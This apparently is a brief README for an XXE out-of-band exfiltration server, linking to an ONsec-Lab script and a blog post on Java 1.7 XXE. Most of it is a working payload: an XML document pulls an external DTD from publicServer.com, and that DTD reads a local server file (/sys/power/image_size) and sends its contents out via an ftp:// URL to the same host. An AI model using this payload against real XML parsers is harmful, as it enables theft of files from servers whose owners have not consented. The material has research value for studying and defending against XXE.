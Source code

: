 # XXE FTP HTTP Server

https://github.com/ONsec-Lab/scripts/blob/master/xxe-ftp-server.rb

http://lab.onsec.ru/2014/06/xxe-oob-exploitation-at-java-17.html

```<?xml version="1.0"?>
<!DOCTYPE data [
<!ENTITY % remote SYSTEM "http://publicServer.com/parameterEntity_sendftp.dtd">
%remote;
%send;
]>
<data>4</data>
```

File stored on http://publicServer.com/parameterEntity_sendftp.dtd
```<!ENTITY % payload SYSTEM "file:///sys/power/image_size">
<!ENTITY % param1 "<!ENTITY &#37; send SYSTEM 'ftp://publicServer.com/%payload;'>">
%param1;
```

